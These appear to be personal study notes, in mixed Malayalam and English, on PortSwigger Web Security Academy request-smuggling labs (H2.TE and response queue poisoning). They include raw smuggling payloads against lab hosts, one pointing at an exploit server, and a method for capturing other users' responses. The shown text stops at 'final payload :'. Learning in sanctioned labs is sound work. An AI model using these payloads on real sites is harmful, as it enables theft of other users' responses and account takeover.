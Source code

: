                     POST / HTTP/2
					Host: 0a4400eb047edba9c0d4a8f3006600c7.web-security-academy.net
					Content-Length: 0
					
					SMUGGLEDGET /resources HTTP/1.1
					host: exploit-0a3800e70453dbbbc07ca89f018900a9.web-security- 
                    academy.net
 					content-lenth: 5
					
					x=1

==============================================================

#### #2 H2.TE vulnerabilities :
-->HTTP/2 il chunked transfer-encoding il angane nadakila.namal explicitly ittalum ath automatic aayi strip chyapedum allengil aa request angane thane block aakum
-->pakshe front-end server ith correct aayi impliment chythilengil back-end chunked encoding support chyum angane namuk smuggling attack chyan kazhinjekum

==============================================================

#### #3 Response queue poisoning :
-->Response queue poisoning is a powerful request smuggling attack that enables you to steal arbitrary responses intended for other users, potentially compromising their accounts and even the entire site
-->athayath back-end il ninum varuna response front-end wrong aaya request in kodukuna avastha.ath vazhi mattu users in kitenda response namuk kitunu
-->This is achieved by smuggling a complete request, thereby eliciting two responses from the back-end when the front-end server is only expecting one.
-->namal smuggle chyumbol rand request smuggle chyanam.apol front-end vijarikum ath oru request mathrame ayachitulu but back-end il kooduthal request vanitutund.so athinanusarich response aakivekum.ini front-end oru response namuk tharum but mate response back-endil thane kidakum.so ini vere oru user enthengilum request chyumbol ee response aayirikum aa user in kituka
-->ee attack HTTP/1.1 ilum HTTP/2 ilum namuk chyan patum
-->To make it easier to differentiate stolen responses from responses to your own requests, try using a non-existent path in both of the requests that you send. That way, your own requests should consistently receive a 404 response
-->athayath namal oru fake path vechal namukariyam enthayalum 404 kitum but matu user inte response aanengil response code vere aayirikum kituka.apol namuk peten namude response um mattullavarude response um manasilakan sadhikum

           Lab-12(Response queue poisoning via H2.TE request smuggling)
-->aadyam lab open chyuka enit athinte GET / repeater il iduka.
-->repeater il inspectoril poi http/2 aakuka.Repeater il(mukalil) poi mate ALPN tick iduka
-->GET ennath POST aakuka.enit enthengilum smuggle chyan patumon nokuka :

                        POST / HTTP/2
						Host: 0a7d00a7039eee2ec01e5a3500c600ed.web-security-academy.net
						Transfer-Encoding: chunked
						
						0
						
						SMUsdlfj
						
-->namuk 404 NOT FOUND kitunund.so smuggling nadakunund
-->ini namuk oru complete request smuggle chyam so aa request inum response backend tharum.enitaa reaponse queue chyam
-->==namal oru smuggled request teminate chyumbol rand empty line idanam ennale aa request complete aaku==
-->ini onukoodi chyanam.athayath namal ayakuna request inte response um matu users inte response um differentiate chyan fake path iduka randilum.apol namuk manasilkaum namude respones um matu oru user inte response um.namude aanengil epozhum 404 varum ok
-->final payload :

